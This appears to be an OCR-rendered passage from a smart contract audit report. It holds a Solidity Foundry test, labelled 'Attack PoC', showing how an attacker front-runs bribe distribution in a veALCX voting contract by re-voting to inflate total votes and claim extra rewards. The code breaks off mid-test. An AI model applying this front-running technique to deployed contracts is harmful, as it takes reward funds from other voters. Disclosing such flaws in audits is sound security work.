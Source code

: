 ```
    voter.claimBribes(bribes, tokens, tokenId1);
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    hevm.startPrank(beef);
    // beef claim rewards
    voter.claimBribes(bribes, tokens, tokenId2);
    hevm.stopPrank();

}
```

### Attack PoC

Add this test to `src/test/Voting.t.sol`
```
function testTotalVotesInflation() public {

    uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](1);
    tokens[0] = new address[](1);
    tokens[0][0] = bal;

    // in epoch i, attacker votes with balance x
    hevm.prank(admin);
    voter.vote(tokenId1, pools, weights, 0);

    // time goes forward
    hevm.warp(block.timestamp + 2);

    // beef votes with balance x
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+1
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    hevm.startPrank(admin);
    // attacker front-runs the distribution and votes with balance X
    voter.vote(tokenId1, pools, weights, 0);
    // now he executes the distribution
    voter.distribute();
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

```